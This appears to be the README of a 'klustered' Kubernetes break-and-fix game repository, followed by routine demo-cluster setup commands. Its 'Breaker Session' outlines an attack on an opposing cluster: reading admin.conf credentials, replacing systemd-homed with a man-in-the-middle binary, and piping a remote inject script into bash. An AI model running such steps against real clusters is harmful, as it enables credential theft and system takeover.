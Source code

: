# klustered

![](./docs/header.jpeg)

* [Ideen für den Angriff auf den gegnerischen Cluster](./enemycluster)
* [Pläne/Scripte für die Verteidigung unseres](./owncluster)

# Fixer Session
1. Run [bootstrap.sh](./owncluster/bootstrap.sh)  
  `curl <link> | bash`


# Breaker Session
1. `cat /etc/kubernetes/admin.conf`
2. `recompile homed`
2. `scp enemycluster/ideas/api-mitm/systemd-homed ubuntu@xxxx`
3. `cp /home/ubuntu/systemd-homed /usr/bin/systemd-homed`
4. `chmod +x /usr/bin/systemd-homed`
5. `curl <inject.sh> | bash`

## Setup Demo Cluster

```
cat <<EOF | sudo tee /etc/modules-load.d/k8s.conf
br_netfilter
EOF
cat <<EOF | sudo tee /etc/sysctl.d/k8s.conf
net.bridge.bridge-nf-call-ip6tables = 1
net.bridge.bridge-nf-call-iptables = 1
net.ipv4.ip_forward = 1
EOF
modprobe br_netfilter
sudo sysctl --system
sudo curl -fsSLo /usr/share/keyrings/kubernetes-archive-keyring.gpg https://packages.cloud.google.com/apt/doc/apt-key.gpg
echo "deb [signed-by=/usr/share/keyrings/kubernetes-archive-keyring.gpg] https://apt.kubernetes.io/ kubernetes-xenial main" | sudo tee /etc/apt/sources.list.d/kubernetes.list
sudo apt-get update
sudo apt-get install -y kubelet kubeadm kubectl containerd
systemctl enable --now containerd
kubeadm init --pod-network-cidr=10.244.0.0/16
export KUBECONFIG=/etc/kubernetes/admin.conf
kubectl apply -f https://raw.githubusercontent.com/flannel-io/flannel/master/Documentation/kube-flannel.yml
kubectl taint node $(kubectl get node -o jsonpath='{.items[].metadata.labels.kubernetes\.io/hostname}') node-role.kubernetes.io/master:NoSchedule-
kubectl taint node $(kubectl get node -o jsonpath='{.items[].metadata.labels.kubernetes\.io/hostname}') node-role.kubernetes.io/control-plane:NoSchedule-
kubectl create deploy nginx --image nginx
```
